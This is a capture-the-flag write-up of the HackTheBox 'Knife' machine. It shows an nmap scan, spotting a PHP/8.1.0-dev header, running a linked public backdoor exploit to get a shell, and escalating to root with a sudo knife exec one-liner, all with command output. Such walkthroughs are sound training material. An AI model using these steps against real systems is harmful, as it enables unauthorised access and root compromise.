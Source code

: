 ### Knife HackTheBox

### Difficulty = Easy

### IP Address = 10.10.10.242

Nmap Scan:

```
-─$ nmap -sCV 10.10.10.242 -p22,80 -oN nmapscan            
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-24 18:06 WAT
Stats: 0:00:57 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.93% done; ETC: 18:07 (0:00:00 remaining)
Stats: 0:01:13 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.64% done; ETC: 18:08 (0:00:00 remaining)
Nmap scan report for 10.10.10.242
Host is up (0.38s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.30 seconds
```

From the scan we get two tcp ports open 

I'll check out the web server

### Web Server Enumeration

Heading over it shows a static page that provides hospital service
![image](https://user-images.githubusercontent.com/113513376/221243091-014de3b1-482b-447d-8bdb-a73271ec16ff.png)

I'll use curl to get the web server header

```
└─$ curl -v http://10.10.10.242/ -I
*   Trying 10.10.10.242:80...
* Connected to 10.10.10.242 (10.10.10.242) port 80 (#0)
> HEAD / HTTP/1.1
> Host: 10.10.10.242
> User-Agent: curl/7.87.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Fri, 24 Feb 2023 17:10:41 GMT
Date: Fri, 24 Feb 2023 17:10:41 GMT
< Server: Apache/2.4.41 (Ubuntu)
Server: Apache/2.4.41 (Ubuntu)
< X-Powered-By: PHP/8.1.0-dev
X-Powered-By: PHP/8.1.0-dev
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8

< 
* Connection #0 to host 10.10.10.242 left intact
```

We see this

```
X-Powered-By: PHP/8.1.0-dev
```

After searching for it i got an exploit regarding it [Exploit](https://www.exploit-db.com/exploits/49933)

#### Exploit 

Running it works

```
└─$ python3 exploit.py          
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ 
```

I'll got a more stable shell 

Then to stabilize your shell do this

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL +Z
stty raw -echo;fg
reset
```

Only a user is present on the box

```
james@knife:/$ cd /home
james@knife:/home$ ls -ala
total 12
drwxr-xr-x  3 root  root  4096 May  6  2021 .
drwxr-xr-x 20 root  root  4096 May 18  2021 ..
drwxr-xr-x  5 james james 4096 May 18  2021 james
james@knife:/home$ 
```

Lets escalate privilege to root

Checking sudo permission shows we can run knife as root

```
james@knife:/home$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

On checking [gtfobins](https://gtfobins.github.io/gtfobins/knife/#sudo) i get a privesc method for knife

```
sudo knife exec -E 'exec "/bin/sh"'
```

Doing it works

```
james@knife:/home$ sudo knife exec -E 'exec "/bin/sh"'
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
 # ls -al
total 56
drwx------  7 root root 4096 May 18  2021 .
drwxr-xr-x 20 root root 4096 May 18  2021 ..
lrwxrwxrwx  1 root root    9 May  8  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3137 May  7  2021 .bashrc
drwx------  2 root root 4096 May  7  2021 .cache
drwx------  3 root root 4096 May 18  2021 .chef
-rwxr-xr-x  1 root root  105 May  8  2021 delete.sh
drwxr-xr-x  3 root root 4096 May  7  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root 1024 May  8  2021 .rnd
-r--------  1 root root   33 Feb 24 17:04 root.txt
-rw-r--r--  1 root root   66 May  8  2021 .selected_editor
drwxr-xr-x  3 root root 4096 May  6  2021 snap
drwx------  2 root root 4096 May  6  2021 .ssh
-rw-------  1 root root 2413 May 18  2021 .viminfo
```

And we're done 

<br> <br>
[Back To Home](../../index.md)
